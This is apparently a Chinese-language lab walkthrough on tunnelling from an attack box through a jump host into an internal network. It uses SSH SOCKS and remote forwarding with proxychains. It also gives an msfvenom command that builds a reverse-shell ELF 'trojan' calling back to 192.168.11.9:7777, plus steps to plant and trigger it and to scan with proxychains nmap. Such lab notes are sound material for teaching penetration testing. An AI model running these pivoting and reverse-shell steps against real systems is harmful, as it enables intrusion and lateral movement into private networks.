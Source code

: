 # Linux Tunnel
## 操作步驟
### 操作前準備及注意事項
- 準備3台機器
    - 攻擊機
    - 跳板機
    - 內網機器
##  操作中步驟(皆在攻擊機操作)
- 先建ssh tunnel，指令: ssh -oHostKeyAlgorithms=+ssh-dss -D 9050  msfadmin@192.168.182.131
- 開啟另一個終端機介面
- 先編輯 proxychains的config
- nano /etc/proxychains4.conf
- 把socks4  127.0.0.1 {指定的port}加到最後一行
- proxychains  ssh msfadmin@192.168.11.4  -oHostKeyAlgorithms=+ssh-dss
- 如須回連reverse shell須按下列步驟操作
    - 攻擊機: ssh -R {listen_IP}:{host}:{host_IP} user@IP
    - 準備trojan: msfvenom -p linux/x86/shell_reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=192.168.11.9 LPORT=7777  > aaa.elf 
    - 把trojan送至內網機裡
    - trigger
    - 即可連回shell

## 操作後步驟及注意事項
- 取得內網機器的權限，可於自己的kali直接連接內網的機器
- 透過proxychains nmap掃描即可掃描內網機器

## 指令範例
- proxychains ssh 192.168.11.4
- ![](https://i.imgur.com/4E5bieZ.png)
- ![](https://i.imgur.com/RaqqKbD.png)
- reverse shell回連
- ![](https://i.imgur.com/OuBVnuK.png)




